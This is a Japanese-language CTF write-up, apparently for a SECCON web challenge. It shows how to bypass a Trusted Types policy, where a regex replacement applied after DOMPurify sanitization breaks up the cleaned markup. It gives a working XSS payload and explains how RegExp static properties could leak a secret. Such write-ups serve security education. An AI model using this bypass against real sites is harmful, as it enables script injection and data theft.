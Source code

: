 ### Solution

#### Step 1: XSS with bypassing Trusted Types

Trusted Typesの設定は以下のようになっていて、`innerHTML`への代入時に必ず`createHTML`が呼ばれるようになっています:
```javascript
    trustedTypes.createPolicy("default", {
      createHTML: (unsafe) => {
        return DOMPurify.sanitize(unsafe)
          .replace(/SECCON{.+}/g, () => {
            // Delete a secret in RegExp
            "".match(/^$/);
            return "SECCON{REDACTED}";
          });
      },
    });
```

例えば、以下のような文字列でbypassすることでXSSができます:
```javascript
> createHTML('SECCON{x<p id="}<img src=0 onerror=console.log(1)>"></p>')
'SECCON{REDACTED}<img src=0 onerror=console.log(1)>"></p>'
```

ただし、
```javascript
document.cookie = "FLAG=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
でcookieが削除されるため、`document.cookie`からフラグを盗むことはできません。

#### Step 2: RegExp in DOMPurify

ところで、`createHTML`内の
```javascript
// Delete a secret in RegExp
"".match(/^$/);
```
の処理は何のために行われているのでしょうか？

実はJavaScriptのRegExpにはおもしろい（？）振る舞いがあり、直前の正規表現のマッチ情報をRegExpのプロパティに保存するようになっています:

- [`RegExp.input`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input)
- [`RegExp.lastMatch`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastMatch)
- [`RegExp.lastParen`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastParen)
- [`RegExp.leftContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/leftContext)
- [`RegExp.rightContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/rightContext)
- [`RegExp.$1`-`RegExp.$9`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/n)

`"".match(/^$/)`はこれらのプロパティを空文字列にするための処理でした。逆にこの処理がなかった場合、`replace`内でフラグ文字列がマッチするため`RegExp.input`等からフラグを盗むことが可能になります。

